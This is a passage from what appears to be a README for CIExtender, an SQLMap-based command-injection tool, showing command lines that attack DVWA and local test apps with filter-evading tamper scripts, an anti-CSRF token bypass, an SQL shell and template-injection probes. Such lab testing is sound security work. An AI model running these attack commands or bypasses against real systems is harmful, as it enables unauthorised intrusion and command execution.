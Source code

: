The files for the POST scenarios, can be found in the *testbed/commix_requests* folder.

## DVWA Test Bed

```
python3 CIExtender.py -u "http://local.con/DVWA-master/vulnerabilities/exec/index.php" --data="ip=*&Submit=Submit&user_token="  --flush-session --cookie="security=medium; PHPSESSID=fm1i182tfqk0hak3mt5ocssfo7" --batch -v1 --tamper=bash_no_space

python3 CIExtender.py -u "http://local.con/DVWA-master/vulnerabilities/exec/index.php" --data="ip=*&Submit=Submit&user_token="  --flush-session --cookie="security=low; PHPSESSID=fm1i182tfqk0hak3mt5ocssfo7" --batch -v1
```

*Of course you can pass the high level. Just create the tamper script it needs ;-)* 

## Anti-CSRF token bypass

This is the medium challenge from the DVWA in which I have added the anti-CSRF token. 

Install the DVWA and replace the file **vulnerabilities/exec/source/impossible.php** with the one from the "testbed" folder in this repo. Then play the command injection in the "impossible" level.

```
python3 CIExtender.py -u "http://local.con/DVWA-master/vulnerabilities/exec/index.php" --csrf-token="user_token" --csrf-url="http://local.con/DVWA-master/vulnerabilities/exec/index.php" --data="ip=*&Submit=Submit&user_token="  --flush-session --cookie="security=impossible; PHPSESSID=fm1i182tfqk0hak3mt5ocssfo7" --batch -v1 --tamper=bash_no_space
```

## More scenarios

While I was testing the various "challenges", the possibilities and the functionalities, I created some testing scenarios in order to check different ideas.

I created the second_order.php, in order to test if the *-second-url* of SQLMap is working, and it is!
```
python3 CIExtender.py -u http://127.0.0.1/second_order.php?cmd=* -v1 --sql-shell --flush-session --second-url http://127.0.0.1/test.txt
```

I used the FlaskApp from  https://0day.work/jinja2-template-injection-filter-bypasses/ in order to check if I could detect template injections:

```
python3 CIExtender.py -u http://127.0.0.1/Flask/?name=* -v1 --hostname --dbms=shell --skip-urlencode --flush-session
```
Please note, that this needs many fixes. I have used an "inference query" which I don't like, because I wanted to check if I can exploit template injections. This is not the "right" SQLMap's way to do it. I have to create a new database for template injection. I leave it for now, just to present this capability.

# More words
